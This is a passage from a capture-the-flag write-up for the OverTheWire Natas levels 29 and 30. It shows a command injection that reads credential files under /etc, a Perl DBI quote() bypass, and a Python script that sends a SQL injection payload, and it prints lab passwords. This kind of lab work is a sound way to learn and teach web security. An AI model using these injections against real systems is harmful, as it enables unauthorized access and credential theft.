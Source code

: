 Though there's an easy way to bypass this by using Bash wildcards. So replacing every `natas` with just an asterisk would do the trick. I put `?file=|cat /etc/*_webpass/*30%00` and got the password.

```
WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH
```

# 30

```
Username: natas30
URL:      http://natas30.natas.labs.overthewire.org
```

Another username and password entry, this time it's a perl website.

Looking at the source code it seems to call an SQL query, as shown here

```perl
my $query="Select * FROM users where username =".$dbh->quote(param('username')) . " and password =".$dbh->quote(param('password')); 
```

However we can't just post a SQL injection normally because of the `quote()` function, which escapes all quotation marks that gets passed through.

Apparantly the `quote()` function is vulnerable, as the function can accept a second parameter that tells it which data type to look for in the username/password. For example, if we tell it to parse our password as an integer, the function won't be able to escape our quotes, allowing SQL injection to take place. 

We can do this by passing our `username` as `natas31` as usual, but also passing two `password` values. One password will be `'nah' or 1 = 1;#`, while the other will be just `4`. The 4 represents an ODBC datatype code for integers.

Since neither passing it through the input nor passing it as an URL get parameter work for me, I decided to code it in python.

```python
import requests
target = "http://natas30.natas.labs.overthewire.org/index.pl"
webauth = ('natas30', 'WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH')

r = requests.post(target,
auth = webauth,
data = { "username": "natas31", "password": ["'nah' or 1 = 1;#", 4] }
)
print ((r.text.split("natas31")[-1])[:32])
```

Running it gives the password to the next level.

```
m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y
```

# 31
